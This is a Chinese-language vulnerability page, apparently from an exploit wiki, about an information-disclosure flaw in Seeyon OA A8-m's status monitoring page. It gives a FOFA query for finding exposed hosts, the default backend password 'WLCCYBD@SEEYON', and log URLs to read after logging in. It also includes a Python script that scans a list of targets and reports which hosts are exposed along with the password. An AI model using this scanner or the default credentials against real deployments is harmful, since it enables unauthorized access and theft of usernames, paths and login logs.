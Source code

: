 # 致远OA A8 状态监控页面信息泄露

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响

> [!NOTE]
>
> 致远OA A8-m

## FOFA

> [!NOTE]
>
> title="A8-m"

## 漏洞复现

访问监控页面

```
http://xxx.xxx.xxx.xx/seeyon/management/status.jsp
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-32.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

后台密码为 **WLCCYBD@SEEYON**

登录后通过如下url获得一些敏感信息

```
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-33.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/zhiyuan-34.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/zhiyuan-35.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

> [!NOTE]
>
> 多个目标

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA A6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/management/index.jsp"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "Password" in response.text:
            print("\033[32m[o] 目标 {} 存在后台监控地址{}，默认密码为: WLCCYBD@SEEYON\033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```



![](http://wikioss.peiqi.tech/vuln/zhiyuan-36.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> Seeyon OA A8-m Information leakage

![](http://wikioss.peiqi.tech/vuln/zhiyuan-43.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)